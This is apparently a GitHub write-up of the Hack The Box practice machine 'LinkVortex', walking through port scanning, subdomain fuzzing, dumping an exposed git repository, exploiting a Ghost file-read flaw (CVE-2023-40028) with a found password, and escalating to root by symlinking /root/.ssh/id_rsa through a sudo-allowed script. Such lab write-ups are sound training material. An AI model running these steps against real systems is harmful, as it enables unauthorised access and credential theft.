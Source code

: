![LinkVortex](https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [0xyassine](https://app.hackthebox.com/users/143843)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.47 -oG scan
	nmap -p22,80 -sCV -Pn 10.10.11.47 -oN ports
	```

	![image](https://github.com/user-attachments/assets/7f773cb3-8c8d-42aa-be0a-45dd9c4be2fd)

- I go to the site and see that a de-tialized version of Ghost is running. I find that it has a vulnerability, [CVE-2023-40028](https://github.com/TryGhost/Ghost/security/advisories/GHSA-9c9v-w225-v5rg). I need to find a valid credential to be able to abuse this vulnerability.
	
	![image](https://github.com/user-attachments/assets/18ca98a7-3293-4927-8960-ff989ea25e90)

- I do a search for subdomains and I find one.

	```python
	wfuzz -c -t 100  --hh=230 -w  /usr/share/amass/wordlists/subdomains-top1mil-110000.txt -H "Host: FUZZ.linkvortex.htb" http://linkvortex.htb
	```

	![image](https://github.com/user-attachments/assets/ff557526-705e-4bbe-9cef-4d75885a1db6)

  ![image](https://github.com/user-attachments/assets/21f3466c-47ab-437e-806e-4a3c5f41f221)

- When listing the found subdomain I find a git repository. I download it with [git-dumper](https://github.com/arthaud/git-dumper)

	```python
	git-dumper "http://dev.linkvortex.htb/.git"  /home/rufo/linkVortex/content/example 
	```

- I search in the repository files and find some passwords. I try with the passwords I found and the vulnerability I found before and I manage to find some valid credentials.
	
	```python
	./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
	```

- I modify the script to point to the endpoint and I manage to read internal files of the machine. LFI

	![image](https://github.com/user-attachments/assets/a6cfc387-f366-4ada-8e57-12cdd497dd78)

	![image](https://github.com/user-attachments/assets/b3e854aa-8bb4-4c65-9e74-26cf4a12b130)

- I list the repository files and manage to find some credentials in the production environment configuration file

	![image](https://github.com/user-attachments/assets/54556822-4366-44a8-bd4b-dfad3ae5409e)

- Thanks to these credentials I am able to log in via ssh and read the first flag

	![image](https://github.com/user-attachments/assets/106d9366-5e5a-45c5-807f-0e07e0423a9f)

- Listing the system files, I see that I can execute as root the file clean_symlink.sh and passing any file as argument.
- I create a couple of symbolic links to be able to read the file with the ssh key of the root user.

	![image](https://github.com/user-attachments/assets/a4a806f7-6830-4afb-a1ea-d25f727f8879)

	```python
	ln -s /root/.ssh/id_rsa link1.txt
	ln -s /tmp/a/link1.txt duo.png
	sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/a/duo.png
	```

	![image](https://github.com/user-attachments/assets/aee342c8-20ab-4a9f-a0ab-453484fb7a41)

- With this key I connect via ssh as root and manage to read the second flag

	![image](https://github.com/user-attachments/assets/51b70c2a-f975-4531-badc-9bb614df7e48)
